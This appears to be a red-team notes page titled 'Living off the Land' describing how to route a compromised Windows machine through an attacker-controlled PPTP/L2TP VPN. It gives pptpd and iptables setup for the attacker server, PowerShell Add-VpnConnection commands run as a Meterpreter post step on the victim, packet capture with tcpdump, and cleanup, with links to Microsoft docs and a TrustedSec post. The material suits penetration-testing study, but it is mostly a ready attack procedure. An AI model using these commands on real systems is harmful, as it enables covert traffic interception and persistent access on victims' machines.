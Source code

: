 # Living off the Land

Install the dependency according to your package manager.

```
# apt install -y pptpd
```

For `localip` just include the gateway IP and `remoteip` just specify the available IP ranges that isn't occupied in the current subnet network.

```
# cat /etc/pptpd.conf
localip 192.168.0.1
remoteip 192.168.0.234-238
..[omitted]..
```

Specify the credentials.

```
# cat /etc/ppp/chap-secrets
# Secrets for authentication using CHAP
# client	server	secret			IP addresses
<username>  *       <password>      *
```

Create the firewall rules to accept incoming and outgoing PPTP network traffic.

```
# iptables -t nat -A POSTROUTING -o enp7s0 -j MASQUERADE
iptables -A FORWARD -i ppp0 -o enp7s0 -j ACCEPT
iptables -A FORWARD -i enp7s0 -o ppp0 -m state --state ESTABLISHED,RELATED -j ACCEPT
```

Enable port forwarding.

```
# echo 1 > /proc/sys/net/ipv4/ip_forward
```

Restart PPTP daemon service and check network statistics for the listening port.

```
# systemctl restart pptpd

# ss -antpl | grep :1723
```

```
$ ip address show enp7s0

# ip route
```

Then execute post module to make the target connect to the attacker's VPN tunnel.

```
PS C:\> Add-VpnConnection -Name "<vpn_name>" -ServerAddress <VPN_server_IP> -TunnelType PPTP -EncryptionLevel Required -PassThru
```

```
PS C:\> Add-VpnConnection -Name "<vpn_name>" -ServerAddress <VPN_server_IP> -TunnelType L2TP -EncryptionLevel Required -PassThru -L2tpPsk "<password>" -Confirm:$false -Force
```

Then the victim should be authenticated in the attacker's VPN tunnel.

```
PS C:\> Get-VpnConnection -Name "<vpn_name>"
```

You can check the route network that contains the same configuration file (`/etc/pptpd.conf`) from `remoteip`.

```
metepreter > route
```

Intercept the packets.

```
# tcpdump -i <interface>
```

Delete the VPN connection.

```
PS C:\> Get-VpnConnection -Name "<vpn_name>" | Remove-VpnConnection -Force -Confirm:$false
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Gathering Information/Windows/WireTap/MITM/C2 Frameworks/Metasploit]]

### Microsoft

- [Powershell Module: `Add-VpnConnection`](https://learn.microsoft.com/en-us/powershell/module/vpnclient/add-vpnconnection?view=windowsserver2025-ps)

### TrustedSec

- [TrustedSec: Abusing Windows Built-in VPN Providers](https://trustedsec.com/blog/abusing-windows-built-in-vpn-providers)